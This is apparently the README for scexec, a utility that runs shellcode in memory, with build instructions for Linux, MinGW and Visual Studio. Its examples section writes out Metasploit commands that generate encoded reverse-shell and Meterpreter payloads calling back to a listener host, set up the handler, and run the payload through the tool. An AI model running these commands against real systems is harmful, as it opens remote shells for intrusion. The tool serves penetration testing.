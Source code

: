 scexec
======

Portable utility to execute in memory a sequence of opcodes

Features
========

- Linux/Windows/Mac support
- Visual C/C++, gcc, mingw32/mingw64 support
- Raw/Alphanumeric/Base64/UUdecode support
- Commandline argument/File support

Examples
========



## Linux target

  $ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
  $ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
  $ ./shellcodeexec <msfencode's alphanumeric-encoded payload>

## Windows target

  msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
  msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 E
  C:\>shellcodeexec.exe <msfencode's alphanumeric-encoded payload>

Linux builds:
=============
Just type:

   make

Mingw builds:
=============

   make CC=i686-w64-mingw32-gcc STRIP=i686-w64-mingw32-strip OUT=scexec32.exe

   make CC=x86_64-w64-mingw32-gcc STRIP=x86_64-w64-mingw32-strip OUT=scexec64.exe

Visual Studio:
==============

   nmake /f Makefile.vc

   nmake /f Makefile.v64

